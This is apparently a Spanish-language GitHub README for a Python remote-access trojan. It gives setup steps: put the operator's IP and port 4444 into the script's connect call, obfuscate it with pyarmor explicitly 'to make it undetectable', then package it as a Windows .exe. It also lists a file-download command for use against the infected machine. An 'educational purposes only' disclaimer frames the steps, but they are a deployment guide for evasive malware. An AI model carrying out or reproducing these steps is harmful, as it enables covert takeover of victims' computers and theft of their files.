

# Troyano

<p align="center">
  
</p>

Un **troyano** es un tipo de software malicioso que se disfraza de una aplicación legítima para engañar a los usuarios y obtener acceso no autorizado a sus sistemas. Este proyecto está diseñado únicamente con fines **educativos y de investigación en ciberseguridad**.

---

## ⚙️ Instalación

Descarga el repositorio y configura el script `troyano.py` con tu IP pública para establecer la conexión remota:

```python
conexion.connect(("192.168.1.10", 4444))
```

---

## 🔒 Ofuscación

Para hacer indetectable el troyano, instala **pyarmor**:

```bash
pip install pyarmor
```

Ofusca el script:

```bash
pyarmor gen troyano.py
```

Esto generará una carpeta `Dist` con el troyano ofuscado.  
Luego convierte el archivo `.py` a `.exe` con **auto-py-to-exe**:

```bash
pip install auto-py-to-exe
```

---

## ▶️ Uso

Ejemplo de comando disponible:

```bash
download <nombre de archivo>
```

<p align="center">
  
</p>

---

## ⚠️ Aviso legal

Este script ha sido desarrollado únicamente con fines **educativos y de investigación en ciberseguridad**. El uso indebido de este material puede ser **ilegal**. No me responsabilizo del mal uso ni de los daños que puedan ocasionarse por su ejecución.